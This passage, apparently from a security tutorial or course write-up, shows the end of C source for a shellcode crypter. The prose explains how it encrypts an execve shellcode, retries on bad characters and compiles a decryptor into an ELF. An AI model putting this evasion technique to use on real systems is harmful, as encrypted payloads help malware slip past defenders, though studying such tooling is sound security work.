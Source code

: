 ```c
			sprintf(op, "\\x%02x", buf[i] & 0xff);
			strcat(crypt, op);
		}

		for (int i = 0; i < strlen(vector); i++) { 
			sprintf(op, "\\x%02x", vector[i] & 0xff);
			strcat(decrypt, op);
		}


		/* check for bad chars */
		if (hasbadchar(crypt) || hasbadchar(decrypt)) {
			printf("[-] Bad characters identified. Retrying...\n");
			ok = 0;
			continue;
		} else {
			/* make crypted elf */
			makeElf(crypt, decrypt);

			/* info */
			printf("[*] Key: ");
			for (int i = 0; i < strlen(key); i++) { 
				printf("%02x", key[i] & 0xff); 
			}
			printf("\n[*] Key Length: %d\n", strlen(key));
			printf("[*] IV: ");
			for (int i = 0; i < strlen(iv); i++) { 
				printf("%02x", iv[i] & 0xff); 
			}
			printf("\n[*] IV Length: %d\n", strlen(iv));
			printf("[*] Shellcode Length: %d\n", strlen(code));
			printf("[*] Padding: %d\n", pad);
			printf("[*] Crypted Length: %d\n", strlen(buf));
			printf("[+] Vector: \n\n%s\n\n", decrypt);
			printf("[+] Crypt: \n\n%s\n\n", crypt);
			printf("[+] Saved as 'crypted'\n\n");
		}
	}
	
	mcrypt_module_close(m);
	return 0;
}
```

An `execve` shellcode is used for this example, which is configured directly in the code. The encryption key is passed as a commoand-line argument. The crypter uses `mcrypt_generic` to actually encrypt the shellcode. The IV is genearated by reading bytes from `/dev/urandom`. 

After the shellcode is encrypted, it is checked for bad characters, which in for this example we set to the typical suspects - `\x00`, `\x0a`, `\x0d`. If a bad character is detected, the whole encryption procedure is repeated, including generating a new random IV. On the other hand, if no bad characters are detected, the program proceeds to writing a C file with the encrypted shellcode and the decryption vector placed inside the code. The decryptor C file is finally compiled and `shred`ed.

